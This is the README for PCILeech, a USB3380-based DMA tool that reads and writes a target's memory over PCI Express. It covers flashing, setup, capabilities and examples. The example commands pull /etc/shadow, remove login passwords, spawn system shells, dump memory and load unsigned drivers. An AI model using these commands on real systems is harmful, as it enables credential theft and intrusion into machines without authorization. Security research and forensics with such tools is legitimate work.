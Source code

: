 PCILeech Summary:
=================
The PCILeech use the USB3380 chip in order to read from and write to the memory of a target system. This is achieved by using DMA over PCI Express. No drivers are needed on the target system. The USB3380 is only able to read 4GB of memory natively, but is able to read all memory if a kernel module (KMD) is first inserted into the target system kernel. Reading 8GB of memory from the target system take around one (1) minute. The PCILeech hardware is connected with USB3 to a controlling computer running the PCILeech program.
PCILeech is also capable of inserting a wide range of kernel modules into the targeted kernels - allowing for pulling and pushing files, remove the logon password requirement, loading unsigned drivers, executing code and spawn system shells.
The software is written in visual studio and runs on Windows 7/Windows 10. Supported target systems are currently the x64 versions of: Linux, OS X and Windows.

Hardware:
=========
PCILeech is dependant on the PLX Technologies USB3380 chip. The actual chip can be purchased for around $15, but it's more convenient to purchase a development board on which the chip is already mounted. Development boards can be purchased from BPlus Technology, or on eBay / Ali Express. Please note that adapters may be required too depending on your requirements.

http://www.bplus.com.tw/PLX.html

The hardware confirmed working is:
* USB3380-EVB mini-PCIe card.
* PP3380-AB PCIe card.

Please note that the ExpressCard EC3380-AB is not working!

Recommended adapters:
* PE3B - ExpressCard to mini-PCIe.
* PE3A - ExpressCard to PCIe.
* ADP - PCIe to mini-PCIe.
* Sonnet Echo ExpressCard Pro - Thunderbolt to ExpressCard.

Please note that other adapters may also work.

Flashing Hardware:
==================
In order to turn the USB3380 development board into a PCILeech device it needs to be flashed. The image to flash is found in pcileech_files and is named: firmware_pcileech.bin. In order to flash the image please download the PLX SDK from: http://www.plxtech.com/products/sdk/ (Linux version). You need to register to get access. The card must be connected to the Linux system doing the flashing via PCIe.

* unzip and untar
* export PLX_SDK_DIR=/pathtofiles/PlxSdk
* cd /pathtofiles/PlxSdk/PlxApi
* make
* cd ../Driver
* ./builddriver Svc
* ./Plx_load Svc

To load the firmware onto the USB3380-EVB mini PCIe card run:
* cd /pathtofiles/PlxSdk/Samples/PlxCm
* make
* ./App/PlxCm
* eep_load firmware_pcileech.bin

To load the firmware onto the PP3380 PCIe card run:

(the J3 jumper must be bridged to connect the EEPROM)
* cd Samples/PlxEep
* make
* ./App/PlxEep -w 2 -l firmware_pcileech.bin

Installing PCILeech:
====================
Please ensure you do have the most recent version of PCILeech by visiting the PCILeech github repository at: https://github.com/ufrisk/pcileech

Clone the PCILeech Github repository. The binaries are found in pcileech_files and should work on Windows 7 and Windows 10 64-bit versions. Please copy all files from pcileech_files since some files contains additional modules and signatures. 

The Google Android USB driver also needs to be installed. Download the Google Android USB driver from: http://developer.android.com/sdk/win-usb.html#download Unzip the driver. Open Device Manager. Right click on the computer, choose add legacy hardware. Select install the hardware manually. Click Have Disk. Navigate to the Android Driver, select android_winusb.inf and install. The PCILeech lies about being a Google Glass so that the Android USB driver may be used to access the PCILeech hardware from Windows.

Generating Signatures:
======================
PCILeech comes with built in signatures for Linux and OS X. For Windows 8.1 and higher two full pages of driver code is needed to hijack the kernel. In order to avoid copyright issues the end user has to generate these signatures by themselves using the pcileech_gensig.exe program. The user needs to point to a valid ntfs.sys file in order to generate a signature.

Capabilities:
=============
Users should be able to extend PCILeech easily by writing own kernel shellcode modules and/or creating custom signatures used to patch target system memory. Some of the current capabilies are listed below:
* Retrieve memory from the target system at >150MB/s. 
* Write data to the target system memory. 
* 4GB memory can be accessed in native DMA mode.
* ALL memory can be accessed if kernel module (KMD) is loaded.
* Execute kernel code on the target system.
* Spawn system shell [Windows].
* Spawn any executable [Windows].
* Load unsigned drivers [Windows].
* Pull files [Linux, Windows, OS X].
* Push files [Linux, Windows, OS X].
* Patch / Unlock (remove password requirement) [Windows, OS X].

Limitations/Known Issues:
=========================
* Read and write errors on some older hardware. Try "pcileech.exe testmemreadwrite -min 0x1000" in order to test memory reads and writes against the physical address 0x1000 (or any other address) in order to confirm.
* Does not work if the OS uses the IOMMU/VT-d. This is the default on OS X (unless disabled in recovery mode). Windows 10 Enterprise with Virtuallization based security features enabled does not work - this is however not the default setting in Windows 10.
* Some Linux kernels does not work. Sometimes a required symbol is not exported in the kernel and PCILeech fails.
* Linux might also not work if some virtualization based features are enabled.
* Windows Vista: some shellcode modules such as wx64_pscmd does not work.
* Windows 7: signatures are not published.

Examples:
=========
Load OS X kernel module:
* pcileech.exe kmdload -kmd osx_x64

Remove OS X password requirement, requires that the KMD is loaded at an address. In this example 0x11abc000 is used.
* pcileech.exe ax64_unlock -kmd 0x11abc000 -0 1

Retrieve the file /etc/shadow from a Linux system without pre-loading a KMD.
* pcileech.exe lx64_filepull -kmd LINUX_X64 -s /etc/shadow -out c:\temp\shadow

Load a kernel module into Windows Vista by using the default memory scan technique.
* pcileech.exe kmdload -kmd winvistax64

Load a kernel module into Windows 10 by targeting the page table of the ntfs.sys driver signed on 2016-03-29.
* pcileech.exe kmdload -kmd win10x64_ntfs_20160329 -pt

Spawn a system shell on the target system (system needs to be locked and kernel module must be loaded). In this example the kernel module is loaded at address: 0x7fffe000.
* pcileech.exe wx64_pscmd -kmd 0x7fffe000

Dump all memory from the target system given that a kernel module is loaded at address: 0x7fffe000.
* pcileech.exe dump -kmd 0x7fffe000

Building:
=========
The binaries are found in the pcileech_files folder. If one wish to build an own version it is possible to do so. Compile the pcileech and pcileech_gensig projects from within Visual Studio. Tested with Visual Studio 2015. To compile kernel- and shellcode, located in the pcileech_shellcode project, please look into the individual files for instructions. These files are usually compiled command line.

Changelog:
==========
v1.0
* Initial release.

latest
* New implant: load unsigned drivers into Windows kernel [wx64_driverload_svc].
